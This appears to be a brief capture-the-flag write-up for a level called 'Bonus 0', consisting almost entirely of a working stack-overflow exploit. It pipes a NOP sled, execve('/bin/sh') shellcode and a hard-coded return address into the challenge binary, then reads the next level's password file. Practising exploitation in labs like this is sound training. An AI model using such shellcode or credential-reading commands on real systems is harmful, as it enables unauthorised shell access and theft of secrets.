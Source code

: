 # Bonus 0

`(python -c 'print "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print " " * 9 + "\xf0\xe6\xff\xbf" + "N" * 42'; cat) | ./bonus0`
`cat /home/user/bonus1/.pass`
**Flag:** ``
